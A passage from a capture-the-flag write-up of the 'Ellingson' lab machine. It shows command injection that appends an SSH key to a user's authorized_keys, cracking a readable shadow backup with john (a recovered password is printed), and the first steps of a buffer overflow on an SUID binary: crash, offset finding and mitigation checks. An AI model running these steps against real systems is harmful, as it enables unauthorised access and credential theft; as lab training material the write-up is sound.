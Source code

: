 In addition we can use subprocess to execute commands, allowing us to add our public key to the authorized\_keys file of hal:

```
import subprocess;subprocess.check_output("echo '\nkey' >> /home/hal/.ssh/authorized_keys", shell=True)
```

We can now ssh into the box as hal, however there is no user flag yet. We notice that hal is in the "adm" group, which means we probably get something from log files.

In /var/backups we find a file we can read named "shadow.bak", which contains some user hashes. We run john against it with "rockyou.txt" and after some time get a result for margo: "margo:iamgod$08".

We can now su to margo and read the user flag:

```
margo@ellingson:~$ $ wc -lc user.txt
 1 33 user.txt
```

## Root Flag

We look for suid binaries with `find / -perm -u=s -type f 2>/dev/null` and find that "/usr/bin/garbage" seems very suspicious. For analysis and exploitation we download it to our box. After making sure it does nothing malicious to our attacker box by looking at it in IDA, we start the exploitation process.

We quickly manage to crash it by entering a long string as a password:

```
gdb garbage
run <<<$(python -c 'print "A"*200')
[!] Cannot disassemble from $PC
[#0] Id 1, Name: "garbage", stopped, reason: SIGSEGV
```

The first job is to get the offset at which we can overwrite the instruction pointer, which we can do easily in gdb with the gef plugin:

```
pattern create 200
run <<<$(echo aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa)
Cannot disassemble from $PC
...
0x00007ffda4120658│+0x0000: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"     ← $rsp
...
pattern find raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa
[+] Found at offset 136 (big-endian search)
```

Before going further we need to check which mitigations we have to bypass:

```
cat /proc/sys/kernel/randomize_va_space
2
[+] checksec for 'garbage'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```
